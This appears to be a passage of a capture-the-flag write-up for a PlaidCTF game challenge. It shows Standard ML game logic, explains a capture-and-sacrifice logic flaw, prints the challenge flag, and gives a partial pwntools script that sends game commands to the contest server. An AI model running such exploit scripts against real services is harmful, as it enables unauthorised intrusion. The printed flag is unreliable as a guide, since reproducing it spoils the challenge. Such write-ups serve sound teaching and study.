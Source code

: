 ```sml
    if (!should_capture) andalso (not (!has_captured)) 
    then
      if (!e_h > 50) then
        (TextIO.print ("It was too strong, you failed to capture "^
          (color e_name ORANGE));
        enemy)
      else
      let
        val _ = should_capture := false
        val _ = has_captured := true
        val _ = captured := enemy
        (* Kill them so that you can heal yourself *)
        fun sacrifice_fn (my_h, my_s, their_h, their_s) =
          (fn () => (
             my_h := min((!my_h)+min(!e_h, !my_s*10), player_max);
             e_h  := (!e_h-(!my_h)*10);
             
             p_ms := List.filter (fn (n, _) => n <> "Sacrifice") (!p_ms)),
           fn () => ()) (* Only used by the AI, not us *)
        val _ = p_ms := (List.filter (fn (n, _) => n <> "Capture") (!p_ms))
                        @[("Sacrifice", sacrifice_fn)]
      in
        next
      end

```
In the end, `find_best` will chose the enemy wich has the maximum strength amoung all enemies, and make the enemy chosen become `Posessed enemy`.

```sml
fun find_best (this as (Opponent (_, my_s, _, _, next))) best entity =
  if (!my_s) > best then find_best next (!my_s) this
                    else find_best next best entity
  | find_best _ _ entity = entity

```
If we can capture the enemy with max strength, we can de `sacrifice_fn` of it, then kill the posessed enemy.

```python
#!/usr/bin/env python
from pwn import *

# PCTF{just_be_glad_i_didnt_arm_cpt_hook_with_GADTs}

host , port = 'everland.pwni.ng' , 7772
y = remote( host , port )


def sp( p ):
    y.sendlineafter( '>' , p )

y.sendlineafter( '?' , 'yuawn' )

for _ in range( 5 ):
   sp( 'forage' )

sp( 'use' )
sp( '1' )

sp( 'use' )
sp( '3' )

for _ in range( 3 ):
```